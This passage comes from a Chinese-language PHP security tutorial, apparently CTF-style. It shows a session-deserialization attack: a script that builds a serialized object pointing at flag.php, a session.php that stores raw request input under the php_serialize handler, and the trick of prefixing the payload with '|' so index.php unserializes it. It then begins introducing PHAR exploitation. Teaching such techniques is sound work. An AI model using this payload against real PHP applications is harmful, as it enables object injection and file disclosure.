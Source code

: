 `generate.php`

```php
<?php
    class A{
        public $filename = 'flag.php';
    }

    echo serialize(new A);
```

`session.php`

```php
<?php
	ini_set('session.serialize_handler', 'php_serialize');

	session_start();

	$_SESSION['test'] = $_REQUEST['test'];
	echo session_id();
```

首先通过 `generate.php`构造 `payload`

```
O:1:"A":1:{s:8:"filename";s:8:"flag.php";}
```

将 `O:1:"A":1:{s:8:"filename";s:8:"flag.php";}`前面加一个 `|`

即可将反序列化的值存入到 `session`中使 `index.php`反序列化

![php_unseriablize4](phpUnserialize/s4.png)

即可完成 `session反序列化`攻击

![php_unseriablize5](phpUnserialize/s5.png)

## PHAR利用

### 1、PHAR简介

PHAR ("PHp ARchive")是PHP里类似于JAR的一种打包文件，在PHP5.3或更高版本默认开启，这个特性使得PHP也可以像Java一样方便地实现应用程序打包和组件化，一个应用程序可以打成一个PHAR包，直接方法PHP-FPM中运行
